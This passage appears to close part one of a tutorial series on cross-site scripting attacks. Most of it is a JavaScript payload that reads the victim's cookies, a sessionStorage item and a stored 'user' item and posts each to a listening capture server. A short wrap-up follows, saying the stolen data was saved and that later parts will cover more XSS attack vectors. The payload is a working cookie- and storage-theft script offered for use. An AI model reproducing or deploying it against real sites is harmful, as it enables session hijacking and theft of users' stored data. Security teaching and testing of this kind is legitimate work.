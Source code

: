 <br>

```
var server = "http://127.0.0.1:5000/";
var cookieBody = "a=" + encodeURIComponent(document.cookie);
cookieUrl = server + "/saveCookie"
xr = new XMLHttpRequest();
xr.open("POST", cookieUrl, true);
xr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")
xr.send(cookieBody);

sessionStorageItem = window.sessionStorage.getItem('some')
var sessionBody = "a=" + encodeURIComponent(sessionStorageItem);
xr = new XMLHttpRequest();
sessionUrl = server + "/saveSessionStorage"
xr.open("POST", sessionUrl, true);
xr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")
xr.send(sessionBody);

localStorageItem = window.localStorage.getItem('user');
xr = new XMLHttpRequest();
sessionUrl = server + "/saveLocalStorage"
var localStorageBody = "a=" + encodeURIComponent(localStorageItem);
xr.open("POST", sessionUrl, true);
xr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")
xr.send(localStorageBody);
```
<br>
We can see that our files are created and all the data are saved.

We will end our 1st part of this series here. We learnt about creating a web server to capture our incoming exfiltrated data and also created few payloads to set and get certain browser related storage. In the next parts of the series we shall be reviewing more XSS attack vectors. Also, next time we will be exploiting different vulnerabilities using XSS.
